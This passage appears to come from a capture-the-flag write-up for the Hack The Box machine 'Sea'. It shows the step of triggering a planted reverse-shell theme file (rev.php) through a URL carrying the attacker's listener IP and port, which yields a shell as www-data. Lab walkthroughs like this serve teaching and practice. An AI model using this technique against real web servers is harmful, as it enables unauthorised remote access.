 ![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/sea/image-14.png)

Visiting, `sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.63&lport=8001`, we can trigger the reverse shell and we will have a reverse shell spawned as `www-data`:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/sea/image-15.png)
